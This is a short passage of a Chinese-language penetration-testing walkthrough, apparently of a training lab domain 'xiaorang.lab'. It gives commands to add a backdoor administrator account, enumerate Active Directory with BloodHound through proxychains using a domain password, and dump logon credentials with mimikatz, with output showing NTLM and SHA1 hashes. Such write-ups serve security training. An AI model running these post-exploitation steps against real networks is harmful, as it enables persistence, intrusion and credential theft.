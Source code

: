 ```plain
net user test P@ssw0rd /add
net localgroup administrators test /add
```

远程连接后，可以利用`BloodHound`搜集内网信息

```plain
proxychains bloodhound-python -u zhangwen -p 'QT62f3gBhK1' -d xiaorang.lab -c all -ns 172.22.13.6 --zip --dns-tcp
```

[![](assets/1709193375-cba292120569e8938ab60a10a9343601.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240227205212-06eaf520-d56f-1.png)

上传一个`mimikatz`进行提取账号密码信息

```plain
mimikatz.exe "privilege::debug" "log" "sekurlsa::logonpasswords" "exit" > test.txt
```

```plain
Authentication Id : 0 ; 219475 (00000000:00035953)
Session           : Service from 0
User Name         : chenglei
Domain            : XIAORANG
Logon Server      : WIN-DC
Logon Time        : 2023/10/4 16:46:14
SID               : S-1-5-21-3269458654-3569381900-10559451-1105
    msv :   
     [00000003] Primary
     * Username : chenglei
     * Domain   : XIAORANG
     * NTLM     : 0c00801c30594a1b8eaa889d237c5382
     * SHA1     : e8848f8a454e08957ec9814b9709129b7101fad7
     * DPAPI    : 89b179dc738db098372c365602b7b0f4
    tspkg : 
    wdigest :   
     * Username : chenglei
     * Domain   : XIAORANG
     * Password : (null)
    kerberos :  
     * Username : chenglei
```